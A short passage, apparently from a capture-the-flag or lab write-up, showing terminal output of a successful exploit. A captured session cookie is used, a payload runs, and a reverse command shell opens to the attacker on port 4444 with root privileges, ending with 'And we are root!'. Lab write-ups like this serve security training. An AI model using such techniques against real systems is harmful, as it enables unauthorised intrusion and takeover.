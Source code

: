 ```bash
[+] Session cookie: cbc87d23b18e4a0f0d78f4a6e83fb77d
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.15.124:4444 -> 10.10.10.160:46884) at 2019-12-14 21:53:01 +0530
id

uid=0(root) gid=0(root) groups=0(root)
```

And we are root!